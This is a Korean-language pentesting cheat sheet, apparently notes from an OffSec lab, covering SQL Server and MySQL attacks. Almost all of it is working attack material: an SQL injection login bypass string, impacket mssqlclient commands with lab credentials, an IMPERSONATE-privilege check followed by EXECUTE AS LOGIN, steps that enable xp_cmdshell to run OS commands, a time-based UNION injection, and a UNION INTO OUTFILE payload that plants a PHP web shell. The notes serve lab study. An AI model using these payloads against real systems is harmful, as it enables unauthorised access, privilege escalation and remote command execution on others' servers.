 # Login Bypass
```sql
'OR ''='
```

# 🗂 MSSQL Client Connection

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
→ **Impacket**의 `mssqlclient.py`를 사용하여 MSSQL 서버에 접속.  
→ `-windows-auth` 옵션은 **Windows 인증**을 사용하여 로그인.

```sql
SELECT @@version;
```
→ MSSQL 서버 버전 확인

```sql
enum_db
```
→ enumeration DB

```sql
SELECT * FROM offsec.information_schema.tables;
```
→ 데이터베이스 `offsec`의 모든 테이블 목록 확인

```sql
SELECT * FROM offsec.dbo.users;
```
→ 데이터베이스 `offsec`의 `users` 테이블 내용 조회

---
# SQL Server - IMPERSONATE 권한 확인
```sql
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
    ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE';

EXECUTE AS LOGIN = 'hrappdb-reader'
```
1. **`sys.server_permissions`**
   - SQL Server의 서버 수준 권한 정보를 담고 있는 시스템 뷰입니다.
   - `permission_name` 컬럼에 어떤 권한이 부여됐는지 표시됩니다.

2. **`sys.server_principals`**
   - 서버 수준에서 정의된 보안 주체(Principal) 정보를 담고 있는 뷰입니다.
   - 로그인 계정, Windows 로그인, SQL 로그인, 서버 역할 등이 포함됩니다.

3. **JOIN 조건**
   ```sql
   ON a.grantor_principal_id = b.principal_id
   ```
   - 권한을 부여한 **Grantor(부여자)** 의 ID를 보안 주체와 매칭합니다.
   - 즉, 누가 이 권한을 부여했는지를 확인할 수 있습니다.

4. **WHERE 조건**
   ```sql
   WHERE a.permission_name = 'IMPERSONATE'
   ```
   - `IMPERSONATE` 권한만 필터링합니다.
   - 이는 다른 계정으로 가장할 수 있는 권한을 의미합니다.
---
# 💻 MSSQL Code Execution

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```
→ 서버 접속 후, **xp_cmdshell** 기능을 활성화하여 시스템 명령어 실행

```sql
-- 1️⃣ 고급 옵션 보기 허용
EXECUTE sp_configure 'show advanced options', 1;
```
> MSSQL의 `sp_configure`는 서버 설정 값을 변경하는 명령입니다.  
> `'show advanced options'` 값을 1로 설정하면, 기본적으로 숨겨져 있는 고급 설정 옵션(예: xp_cmdshell)을 볼 수 있게 됩니다.

```sql
-- 2️⃣ 설정 적용
RECONFIGURE;
```
> 변경한 설정을 즉시 적용합니다.  
> `sp_configure`로 값을 바꾸더라도 `RECONFIGURE`를 실행하지 않으면 실제 적용되지 않습니다.

```sql
-- 3️⃣ xp_cmdshell 기능 활성화
EXECUTE sp_configure 'xp_cmdshell', 1;
```
> `xp_cmdshell`은 SQL 쿼리에서 직접 OS 명령어를 실행하게 해주는 확장 저장 프로시저입니다.  
> 기본적으로 보안상 이유로 비활성화(0) 되어 있습니다.  
> 여기서 1로 설정하여 기능을 켭니다.

```sql
-- 4️⃣ 설정 적용
RECONFIGURE;
```
> 마찬가지로 변경한 `xp_cmdshell` 설정을 즉시 적용합니다.

```sql
-- 5️⃣ OS 명령어 실행
EXECUTE xp_cmdshell 'whoami';
```
> `xp_cmdshell`을 사용해 OS 명령어(`whoami`)를 실행합니다.  
> 결과로 현재 SQL 서버 프로세스가 실행 중인 **Windows 계정**이 출력됩니다.

---


# 🐬 MySQL Code Execution
```sql
' UNION SELECT sleep(5);-- -
```
→ URL ENCODED로 실행해보기
→ 띄워쓰기 on/off

```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
→ SQL 인젝션을 통해 PHP 웹셸 생성  
→ `INTO OUTFILE`을 사용하여 지정 경로(`/var/www/html/tmp/webshell.php`)에 파일 작성  
→ 생성된 파일에 접근 후, `cmd` 파라미터를 통해 명령어 실행 가능  
→ 예: `http://target/tmp/webshell.php?cmd=id`

---
